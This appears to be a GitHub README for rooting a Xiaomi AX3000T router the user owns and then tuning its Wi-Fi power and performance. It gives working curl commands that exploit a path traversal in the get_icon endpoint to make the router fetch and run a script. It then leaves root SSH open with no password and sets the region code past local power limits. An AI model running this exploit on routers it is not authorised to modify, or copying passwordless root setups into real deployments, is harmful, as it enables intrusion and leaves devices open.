

# Xiaomi AX3000T — SSH Unlock & Performance Tuning

Scripts and instructions for obtaining SSH access to the Xiaomi AX3000T router on firmware versions where the `start_binding` vulnerability has been patched (versions above 1.0.90, tested on 1.0.103), plus scripts for tuning performance and Wi-Fi transmit power.

## Table of Contents

- [Background](#background)
- [Security](#security)
- [Install](#install)
  - [1. Obtaining SSH access](#1-obtaining-ssh-access)
  - [2. Unlocking Wi-Fi transmit power](#2-unlocking-wi-fi-transmit-power)
  - [3. Performance tuning script](#3-performance-tuning-script)
- [Usage](#usage)
- [Maintainers](#maintainers)
- [License](#license)

## Background
 
This repository documents a method for gaining SSH access to the Xiaomi AX3000T router through the `xqsystem/get_icon` and `xqsystem/upload_log` endpoints, along with helper scripts for:
 
- enabling the Dropbear SSH server with no root password;
- changing the regulatory region code to increase the allowed Wi-Fi transmit power;
- basic performance tuning (CPU governor, TCP stack, BBR, disabling Xiaomi telemetry services).

All steps apply to a device you own and are intended for home use. The instructions have been verified on stock firmware version 1.0.103 (Stable, MiWiFi Global) with an Arch Linux client.

## Security

Changing the regulatory region, kernel parameters, and stock firmware services falls outside the officially supported use of the device. Possible consequences include:

- loss of manufacturer warranty;
- the device becoming unresponsive ("bricked"), requiring recovery via TFTP/UART;
- violation of local regulations on permitted Wi-Fi transmit power if the region code does not match your jurisdiction.

All actions are performed at your own risk. Back up your current configuration (nvram, uci) where possible before proceeding.

## Install

### 1. Obtaining SSH access

**Step 1. Set up a local server**

Create a local directory that mirrors the path the script will be uploaded to on the router, and place `enable-ssh.sh` inside it:

```bash
mkdir -p ./etc/diag_info/stat/firewall/
cp enable-ssh.sh ./etc/diag_info/stat/firewall/enable-ssh.sh
```

Start an HTTP server in the project's root directory:

```bash
python3 -m http.server 8000
```

**Step 2. Set environment variables**

In a separate terminal, log in to the router's web admin panel and copy the `stok` value from the address bar. Set the following variables (bash/zsh):

```bash
export STOK="your_stok_token"
export YOUR_LOCAL_IP="192.168.0.188:8000"   # IP of the machine running the HTTP server
export ROUTER_IP="192.168.0.1"              # router's IP address
```

For fish: `set VARIABLE value`.

**Step 3. Upload and execute the script on the router**

```bash
curl -k -X POST "https://$ROUTER_IP/cgi-bin/luci/;stok=$STOK/api/xqsystem/get_icon?ip=$YOUR_LOCAL_IP&name=../../../../etc/diag_info/stat/firewall/enable-ssh.sh"

curl -k -X POST "https://$ROUTER_IP/cgi-bin/luci/;stok=$STOK/api/xqsystem/upload_log"
```

The `-k` flag is needed if the router's admin panel is only reachable over HTTPS with a self-signed certificate.

**Step 4. Connect over SSH**

The router's Dropbear build only supports the legacy `ssh-rsa` host key and public key algorithms, which modern OpenSSH clients disable by default. Re-enable them explicitly when connecting:

```bash
ssh -o StrictHostKeyChecking=no \
    -o HostKeyAlgorithms=+ssh-rsa \
    -o PubkeyAcceptedAlgorithms=+ssh-rsa \
    -v root@$ROUTER_IP
```

### 2. Unlocking Wi-Fi transmit power

By default, transmit power is limited in some regions. To change the region code to CN (higher allowed power), run the following on the router over SSH:

```bash
nvram set CountryCode=CN
nvram commit
bdata set CountryCode=CN
bdata commit
uci set wireless.MT7981_1_1.country='CN'
uci set wireless.MT7981_1_2.country='CN'
uci commit wireless
wifi reload
```

After changing the region, some devices may lose visibility of the 5 GHz network. For stable Wi-Fi 6 operation:

- disable Smart Connect (merging the 2.4 GHz and 5 GHz bands) and use separate SSIDs;
- pin the 5 GHz channel to 36, 40, 44, or 48 (lower channels, compatible with most devices);
- disable Wi-Fi 5 (802.11ac) compatibility mode so the router operates in HE (Wi-Fi 6) mode.

### 3. Performance tuning script

The `auto_tweak.sh` script removes CPU governor throttling, enables TCP BBR, increases TCP buffer sizes, and stops Xiaomi telemetry services.

Copy the script to the router and make it executable. As with the interactive SSH session, the legacy `ssh-rsa` algorithms must be re-enabled for both `scp` and `ssh`:

```bash
scp -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedAlgorithms=+ssh-rsa \
    auto_tweak.sh root@$ROUTER_IP:/data/auto_tweak.sh

ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedAlgorithms=+ssh-rsa \
    root@$ROUTER_IP "chmod +x /data/auto_tweak.sh"
```

To run it automatically on every reboot, add the following line via `crontab -e`:

```
@reboot /data/auto_tweak.sh
```

Alternatively, call the script from `/etc/rc.local` before `exit 0`.

## Verification
 
After connecting, confirm the session and the applied changes:
 
```bash
uname -a
cat /etc/openwrt_release
iwinfo | grep Tx-Power
```
 
`uname -a` and `/etc/openwrt_release` confirm you are on the router's OpenWrt-based system, while `Tx-Power: 23 dBm` on the 5 GHz radios confirms the region change from [step 2](#2-unlocking-wi-fi-transmit-power) took effect.
 



## Usage

After completing the installation steps, the router is accessible over SSH with no root password, runs with increased Wi-Fi transmit power, and has the performance tweaks applied. Re-running `auto_tweak.sh` is safe — the script is idempotent and applies the same settings on every run.


## Maintainers

- [@phant0m44](https://github.com/phant0m44)

## License

[MIT](LICENSE) © 2026, phant0m44
